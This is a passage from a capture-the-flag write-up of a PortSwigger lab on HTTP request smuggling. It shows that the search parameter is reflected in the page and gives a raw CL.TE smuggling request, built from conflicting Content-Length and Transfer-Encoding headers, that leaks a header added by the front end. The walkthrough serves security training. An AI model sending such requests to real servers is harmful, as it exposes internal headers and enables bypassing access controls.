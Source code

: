![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201165937.png)

As you can see, when we clicked the "Search" button, **it'll send a POST request to `/`** with parameter `search`.

Most importantly, the parameter's value is being reflected to the web page!

**Now, we can smuggle an attack request which will leak the front-end's added header:**
```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 750

search=
```
